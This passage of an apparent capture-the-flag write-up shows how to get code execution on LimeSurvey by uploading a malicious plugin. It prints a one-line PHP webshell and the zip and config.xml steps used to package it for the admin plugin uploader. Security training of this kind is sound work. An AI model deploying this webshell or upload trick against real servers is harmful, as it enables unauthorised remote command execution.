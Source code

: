 ```

linkStyle default stroke-width:2px,stroke:#FFFF99,fill:none;
linkStyle 1,6,7 stroke-width:2px,stroke:#4B9CD3,fill:none;
style identifier fill:#1d1d1d,color:#FFFFFFFF;

```

### LimeSurvey RCE

#### Upload Plugin

In searching for CVEs, there are none at this time that are not patches in this version. LimeSurvey has a plugin system. There’s a bunch of documentation in the [LimeSurveyManual](https://www.limesurvey.org/manual/Plugins_-_advanced), but I won’t need most of it.

In the configuration menu at the top, there’s a “Plugins” option:

![image-20250514114736547](/img/image-20250514114736547.png)

Plugins are always a good target, as they likely run PHP code. At the top right of the plugins page there’s an “Upload & install” button. Clicking it pops a form asking for a Zip file:

![image-20250514114842286](/img/image-20250514114842286.png)

I’ll write a simple PHP webshell in `0xdf.php`:

```

<?php system($_REQUEST['cmd']); ?>

```

I’ll add it to a Zip file:

```

oxdf@hacky$ zip 0xdf.zip 0xdf.php 
  adding: 0xdf.php (stored 0%)

```

Trying to upload this returns the following message:

![image-20250514115017617](/img/image-20250514115017617.png)

The documentation has a link to [an example config file](https://gitlab.com/SondagesPro/SampleAndDemo/ExampleSettings/-/blob/master/config.xml?ref_type=heads). I’ll grab that, save it to my host, and add it to the Zip file:

```

oxdf@hacky$ vim config.xml 
oxdf@hacky$ zip 0xdf.zip config.xml 
  adding: config.xml (deflated 53%)

```

